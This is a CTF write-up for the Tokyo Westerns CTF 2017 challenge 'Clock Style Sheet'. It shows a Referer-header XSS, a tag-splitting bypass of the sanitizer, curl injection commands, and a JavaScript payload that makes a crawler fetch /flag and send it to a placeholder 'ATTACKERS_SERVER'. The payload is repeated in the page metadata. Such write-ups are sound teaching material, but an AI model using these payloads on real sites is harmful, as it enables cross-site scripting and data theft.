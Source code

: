 ```yaml
---
title: Tokyo Westerns CTF 2017 – Clock Style Sheet writeup
author: tyage
type: post
date: 2017-09-05T01:34:28+00:00
url: /archive/p1043.html
wp-syntax-cache-content:
  - |
    a:4:{i:1;s:474:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</p></div>
    ";i:2;s:514:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;!doctype html&gt;
    &lt;html&gt;
      &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</p></div>
    ";i:3;s:1008:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
    &lt;/script&gt;</p></div>
    ";i:4;s:1018:"
    <div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</pre></td></tr></table><p class="theCode" style="display:none;">&lt;script&gt;
    payload = `&quot;&gt;&lt;scrona=ipt&gt;
    getFlag = async () =&gt; {
      content = await fetch('/flag');
      await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
    };
    getFlag()
    &lt;/scrona=ipt&gt;
    `;
    history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
    location.href = 'http://192.168.0.4/refresh'; // this line changed
    &lt;/script&gt;</p></div>
    ";}
categories:
  - CTF

---
```

<h2>Overview</h2>
<p>Problem page:<br />
<a href="http://css.chal.ctf.westerns.tokyo/">http://css.chal.ctf.westerns.tokyo/</a></p>
<p>Provided source code:<br />
<a href="https://twctf2017.azureedge.net/attachments/proxy.py-6cac125d5b78cd89658bacf820c439e9c964bad1feedb8a97e4396fe2bd3434d">proxy.py</a><br />
<a href="https://twctf2017.azureedge.net/attachments/sanitizer.py-39beede4e84efe18734390619ac0d6a14e978aa90fac7f4bae7b6c6a17d108ff">sanitizer.py</a></p>
<p>There are 4 pages: /, /refresh, /chrowler, /flag.</p>
<p>When we access /flag, it responses <code>only local IP is allowed. (your IP: 110.3.193.114)</code>.<br />
So, we should use /chrowler (crawler using Chrome) to get the content in /flag.</p>
<h2>Find XSS</h2>
<p>Next, we search XSS and found /refresh has it. (We found the vulnerability when browsing with w3m)<br />
In this page, user will be redirected to the page where he or she is (which represented by Referer header).</p>
<p><code>curl -H 'Referer: blahblahblah"><' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=blahblahblah&quot;&gt;&lt;&quot;&gt;</pre></td></tr></table></div>

<p>And the Referer is sanitized with <code>htmlsanitize</code> but it is bypassed as below:</p>
<p><code>curl -H 'Referer: "&gt;&lt;sona=cript&gt;alert()&lt;/sona=cript&gt;' http://css.chal.ctf.westerns.tokyo/refresh</code></p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;!doctype html&gt;
&lt;html&gt;
  &lt;meta http-equiv=&quot;refresh&quot; content=&quot;0;URL=&quot;&gt;&lt;script&gt;alert()&lt;/script&gt;&quot;&gt;</pre></td></tr></table></div>

<h2>Exploit XSS</h2>
<p>In proxy which is used by crawler, <code>urlsanitize</code> is used.<br />
Crawler can not access to <code>http://attacker/?"&gt;&lt;script&gt;alert()&lt;/script&gt;</code>.<br />
So another technique is required to exploit XSS.</p>
<p>We use <code>history.pushState</code> to set attack code in Referer.</p>
<p>After crawler access the page below, it sends the contents of /flag.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://css.chal.ctf.westerns.tokyo/refresh';
&lt;/script&gt;</pre></td></tr></table></div>

<h2>Local IP Detection</h2>
<p>But the content which is send by crawler is: <code>only local IP is allowed. (your IP: 104.215.63.152)</code></p>
<p>What to do next?<br />
Access to localhost of crawler? No.</p>
<p>After some trials, we tried to detect local IP address of crawler and web server with WebRTC.<br />
( WebRTC is useful technique to detect local IP address: <a href="https://github.com/diafygi/webrtc-ips">https://github.com/diafygi/webrtc-ips</a> )</p>
<p>It turns out that crawler is <code>192.168.0.5</code> and web server is <code>192.168.0.4</code>.</p>
<p>We fixed the attack code.</p>

<div class="wp_syntax" style="position:relative;"><table><tr><td class="code"><pre class="html" style="font-family:monospace;">&lt;script&gt;
payload = `&quot;&gt;&lt;scrona=ipt&gt;
getFlag = async () =&gt; {
  content = await fetch('/flag');
  await fetch('http://ATTACKERS_SERVER/' + btoa(await content.text()));
};
getFlag()
&lt;/scrona=ipt&gt;
`;
history.pushState({}, &quot;&quot;, &quot;a.html?a=&quot; + encodeURIComponent(payload));
location.href = 'http://192.168.0.4/refresh'; // this line changed
&lt;/script&gt;</pre></td></tr></table></div>

<p>And finally we got flag!</p>
<p><code>TWCTF{cl0ck-cr4ck-c1ick}</code></p>
